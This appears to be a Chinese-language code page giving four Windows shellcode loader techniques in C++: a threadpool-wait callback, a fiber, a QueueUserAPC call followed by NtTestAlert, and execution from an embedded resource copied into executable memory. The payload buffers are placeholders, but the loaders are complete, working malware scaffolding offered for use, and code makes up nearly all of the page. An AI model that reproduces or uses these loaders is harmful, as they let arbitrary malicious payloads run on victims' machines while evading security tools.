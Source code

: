 ## CreateThreadpoolWait加载

```cpp
int main() {
UCHAR buf[] = "shellcode";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof buf, PAGE_EXECUTE_READWRITE,&oldProtect);
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(char*)buf, NULL, NULL);
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);
}
```

## Fiber加载

```cpp
int main() {
UCHAR buf[] = "";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof
buf,PAGE_EXECUTE_READWRITE,&oldProtect);
PVOID mainFiber = ConvertThreadToFiber(NULL);
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)(char*)buf,NULL);
SwitchToFiber(shellcodeFiber);
DeleteFiber(shellcodeFiber);
}
```

## QueueUserAPC() + NtTestAlert()

NtTestAlert是未文档化函数，首先定义函数指针，然后使用GetProcAddress获取函数地址
```cpp
typedef DWORD(NTAPI* pNtTestAlert)();
int main() {
UCHAR buf[] = "";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof buf,PAGE_EXECUTE_READWRITE,&oldProtect);
pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)(char*)buf;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
NtTestAlert();
}
```

## 从资源加载

```
#include <stdio.h>
#include <windows.h>
#include "resource.h"
int main() {
HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_XXX1), L"xxx");
DWORD Size = SizeofResource(NULL, Res);
HGLOBAL Load = LoadResource(NULL, Res);

void* p = VirtualAlloc(NULL, Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(p, Load, Size);

((void(*)())p)();
return 0;
}
```